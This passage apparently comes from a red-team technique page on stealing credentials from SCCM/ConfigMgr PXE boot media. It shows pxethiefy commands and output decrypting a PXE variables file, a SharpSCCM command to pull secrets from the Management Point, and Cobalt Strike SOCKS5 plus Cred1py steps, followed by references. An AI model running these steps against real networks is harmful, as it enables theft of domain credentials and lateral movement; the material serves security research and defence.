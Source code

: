 ### Pxethiefy.py
Using pxethiefy from a Linux machine with network access to retrieve a PXE media file with no password set:
```
testsubject4@sphere4:~$ sudo python3 pxethiefy.py explore -i eth0 -a atlas.aperture.local

[*] Querying Distribution Point: atlas.aperture.local
[*] Sending DHCP request to fetch PXE boot files at: atlas.aperture.local
--- Scapy output ---
.
Sent 1 packets.
[*] Variables File Location: \SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[*] BCD File Location: \SMSTemp\2023.10.13.16.48.53.07.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.bcd
[*] Downloading var file '\SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var' from TFTP server 'atlas.aperture.local'
[+] Blank password on PXE media file found!
[*] Attempting to decrypt it...
[+] Media variables file to decrypt: 2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[+] Password bytes provided: 0xb4ff3000ceff90fffbff4c00ceff89ffdcff4800
[+] Successfully decrypted media variables file with the provided password!
[+] Management Point: http://atlas.aperture.local
[+] Site Code: PS1
[+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
  SharpSCCM.exe get secrets -i "{d10d7f98-17dd-4588-b645-34964936023b}" -m "{5F8225E8-6B94-4830-AD90-0F88FC2B3536}" -c "3082073E020103308206FA06092A864886F70D010701A08206EB048206E7308206E33082

<SNIP>

6C458FCF53D0A6D2DBA446F1C0414FAD1E03A89D8481E26D7C1BED1E71FDC3272C701020207D0" -s -c PS1 -mp atlas.aperture.local
```
### Cred1py
Using Cred1py from a Linux machine over a UDP SOCKS5 proxy to retrieve the decryption key for a PXE media file:

On Cobalt Strike, enable UDP SOCKS5 proxy on port 9090:

```
socks 9090 socks5 enableNoAuth a b
```

Then execute Cred1py with:

```
testsubject4@sphere4:~$ python3 ./main.py 10.0.1.200 10.0.2.4 TS-HOST 9090
```

## References
- Christopher Panayi, [Identifying and Retrieving Credentials From SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- Christopher Panayi, [Pulling Passwords Out of Configuration Manager](https://www.youtube.com/watch?v=Ly9goAud0gs)
- Christopher Panayi, [PXEThief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [AES-128 ConfigMgr CryptDeriveKey Hashcat Module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)
- Carsten Sandker, [pxethiefy](https://github.com/csandker/pxethiefy)
- Microsoft, [Understanding PXE Boot](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#)
- SpecterOps, [Cred1py](https://github.com/specterops/Cred1py)